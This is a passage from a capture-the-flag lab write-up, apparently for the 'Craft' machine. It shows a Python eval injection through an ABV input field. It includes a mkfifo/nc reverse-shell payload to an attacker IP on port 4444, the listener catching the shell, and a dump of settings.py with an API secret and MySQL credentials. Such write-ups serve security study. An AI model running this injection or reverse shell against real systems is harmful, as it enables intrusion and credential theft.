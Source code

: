 Testing to bypass python eval function:
```python
#!/usr/bin/python
import sys
import subprocess

abv = sys.argv[1]
if eval('%s > 1' % abv):
	print "ABV must be a decimal value less than 1.0"
else:
	print "Successfull"
```
```bash
$ python temp.py "__import__('os').system('whoami')"
root
Successfull
```
Modify test.py with the new ABV values, which is:
```python
brew_dict['abv'] = '__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 4444 >/tmp/f")'
```
Running test.py:
```bash
$ python test.py 2>/dev/null
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNjI2MTk5MjcxfQ.uIy4vpjs_NAvPdSiaf2jLe-7FHAcEvnbGs7rLx9zVUk
{"message":"Token is valid!"}

Create malicious ABV brew
```
and I got a shell.
```bash
rlwrap nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.110 44791
/bin/sh: can't access tty; job control turned off
/opt/app # 
```
settings.py contains valid MySQL credentials:
```bash
/opt/app/craft_api # cat settings.py
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
```
netstat output says MySQL is running on port 44563:
```bash
netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.11:44563        0.0.0.0:*               LISTEN      -
```
